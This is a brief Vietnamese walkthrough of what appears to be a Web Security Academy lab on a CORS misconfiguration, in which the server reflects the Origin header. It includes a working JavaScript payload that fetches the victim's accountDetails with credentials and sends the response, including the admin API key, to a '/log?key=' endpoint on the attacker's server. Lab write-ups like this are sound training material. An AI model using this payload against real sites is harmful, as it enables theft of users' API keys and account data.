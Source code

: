 ![image](https://github.com/user-attachments/assets/4ab58d48-d796-4b4e-af14-c877d559191b)

Mục tiêu: lấy được api key của admin

Lỗ hổng: Tiêu đề ACAO do máy chủ tạo ra từ tiêu đề Origin do máy khách chỉ định

Mở phần burpsuite lên, dán vào và check phần accountDetails:

![image](https://github.com/user-attachments/assets/b80d2699-193e-468b-88ea-162593b34ab1)

Ở đây thấy phần reponse là true nên thử thêm phần Origin xem như nào 

![image](https://github.com/user-attachments/assets/acdcdfb2-3196-43f1-9c99-b5229b6eb0e2)

Như vậy có nghĩa là bất cứ tên miền nào cx có thể tấn công nên sẽ dùng đoạn script sau 

            <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0aaf00ab04c94be382db29ec00e100f9.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>


Thử lần lượt với view exploit, deliver để xem như nào 

![image](https://github.com/user-attachments/assets/ff3a8083-d88b-4598-bae2-f6c154dc9503)

Thử nhìn kĩ thì có vẻ đã thấy phần admin nên lấy luôn api key của nó 

![image](https://github.com/user-attachments/assets/bcec7114-597a-468c-a4b4-dbaa9713edcc)
